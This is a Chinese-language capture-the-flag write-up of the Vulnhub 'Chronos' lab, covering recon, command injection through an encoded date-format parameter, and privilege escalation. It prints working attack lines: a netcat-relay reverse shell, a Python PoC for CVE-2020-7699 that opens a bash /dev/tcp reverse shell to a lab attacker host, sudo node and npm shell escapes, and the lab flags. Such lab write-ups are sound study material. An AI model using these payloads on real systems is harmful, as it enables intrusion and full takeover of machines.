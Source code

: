 ```yaml
---
title: Chapter3_Medium_Chronos
categories:
- Network_Security
- Vulnhub
- Chapter3
tags:
- Network_Security
- Vulnhub
date: 2024-01-29 14:25:39
---
```


# Chronos 靶场记录

## 1. 过程记录（粗略）

### 1.1 服务发现和外围打点

1. 主机发现，使用新工具：netdiscover，也是基于 arp 的扫描工具：
    `sudo netdiscover -r 网段/实际掩码 - 8`

2. 端口扫描：
    `nmap -Pn -sV 192.168.0.101 -p 1-10000`
    服务如下：
    ![image-20240116113758731](image-20240116113758731.png)

3. 除了目录扫描，还可以查看一下网页源代码，这里发现一个加密脚本：
    ![image-20240116114455084](image-20240116114455084.png)

4. 使用 cyberchef 对代码进行美化，cyberchef 本身也有编码转化等功能：
    ![image-20240116115232477](image-20240116115232477.png)

5. 根据 URL 猜测，试着访问：
    `http://192.168.0.101:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`
    发现权限不够。

6. 通过修改 f12，将域名换成 IP，出现 CORS 跨域错误。因此这里需要修改 host 文件，让这个域名指向目标 IP。
    `sudo vim /etc/hosts`

7. 再次访问，页面更新，但是没有啥交互窗口，因此抓个包看看。
    根据 HTTP 历史，总共有三个包，着重看返回日期的包：
    ![image-20240116141132284](image-20240116141132284.png)
    经过测试发现，当 User-Agent 为 Chronos 时，会返回时间，否则提示 Permission Denied。

8. 其次，尝试猜测 format 的含义，修改内容后，服务端无法返回时间。尝试解码，像是 Base 系列编码，挨个试试，结果是 Base 58 编码：
    ![image-20240116141624700](image-20240116141624700.png)
    这里用的是 CaptfEncoder V2，用 CyberChef 的 magic 让它自动分析编码也省事。

9. 结果是 Linux date 命令的参数，这确实是想不到。测试：
    `9bEW4cq4qengPvFGtzJXEAs1sGpKzYpYvUjwvUngwAmfrVsMwAERK9ox - '+Today is %A, %B %d, %Y %H:%M:%S.' && ls`
    结果返回出来了，说明存在 RCE。

### 1.2 反弹 Shell 与信息收集

1. 查看靶机的 /bin，发现其有 nc，因此用 NC 串联来建立 Shell：
    `7ihptVs1vQRPedsgE9FnpNTWUwH5Ec9aGfvLfeuGgtc21faujqYQsojc89LSM4jDjPBprmKfkco7HEoZxxwPeBjAkbDAe6XXfdkc5oiTjwrn1tJc2pyJj2Y7k6PDpCBXtwCfBCkrap - '+Today is %A, %B %d, %Y %H:%M:%S.' | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555`

2. 拿到 Shell 经过一段信息收集后，发现 imera 用户有个 user.txt 文件，但是没有权限查看，因此需要提权。

### 1.3 初步提权

1. 先查看内核，`'map_write() CAP_SYS_ADMIN' Local Privilege Escalation` 需要 Capabilities 权限，网上查找了一下，发现需要存在 Capabilities 的 CAP_SYS_ADMIN 权限的文件，通过 `getcap -r / 2>/dev/null` 找了一下，发现没有。

2. 内核没法提权，就从 suid 上试试，查找了一下，常见的 suid 程序也基本没有。
     再试试 sudo -l，结果也不行。

3. 回到网站本身，经过信息收集后，发现其有个 chronos-v2。查看后端的 package.json，发现它的 express-fileupload 版本是 1.1.7，恰好比 CVE-2020-7699 Express 模块注入漏洞的版本低，符合利用版本。

4. 再分析他的服务端的代码 server.js，他的服务端开启的服务只在 localhost:8080 端口，外部无法访问。

5. 从 CVE-2020-7699 Express 入手，百度 Google 去找 PoC，最终详情页在：

     > https://github.com/richardgirges/express-fileupload/issues/236
     >
     > https://blog.p6.is/Real-World-JS-1/

6. PoC:
     ```python
     import requests
      
     cmd = 'bash -c "bash -i &> /dev/tcp/192.168.0.2/8888（Kali） 0>&1"'
      
     # pollute
     requests.post('http://127.0.0.1:8080（存在漏洞的服务）', files = {'__proto__.outputFunctionName': (
         None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
      
     # execute command
     requests.get('http://127.0.0.1:8080（存在漏洞的服务）')
     ```

     将该 PoC 在靶机上用 Python3 执行，即可获得 Shell。

7. 此时获得的权限是 imera 的 shell，这时再查看 user.txt 文件。
     拿到第一个 flag：byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK

### 1.4 再次提权

1. 利用 sudo -l，发现可以提权：
     ![image-20240116163306479](image-20240116163306479.png)
     可以使用 sudo 来执行 npm 和 node 命令。

2. 使用 node 进行提权：
     `sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

     > https://haiclover.github.io/gtfobins/node/

3. 查看 root 的 txt 文件，第二个 flag：
     YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK

4. npm 的提权方式：
     ```bash
     TF=$(mktemp -d)
     echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
     sudo npm -C $TF --unsafe-perm i
     ```

     其他有关命令的提权命令：

     > https://ihsansencan.github.io/privilege-escalation/linux/binaries/

5. LXD 提权：

    > https://www.cnblogs.com/zlgxzswjy/p/14790554.html
    >
    > https://www.cnblogs.com/jason-huawen/p/17016263.html

## 2. 知识点总结

1. 新的主机发现工具 - netdiscover
2. Cyberchef 的使用
3. date 命令参数，这确实想不到，发散思维是吧（
4. CVE-2020-7699 Express 模块注入漏洞
5. node 、lxd 和 npm 提权。
6. 提权方向：
    1. 内核
    2. suid
    3. sudo 与具体命令，具体应用结合
    4. 特殊应用与用户组

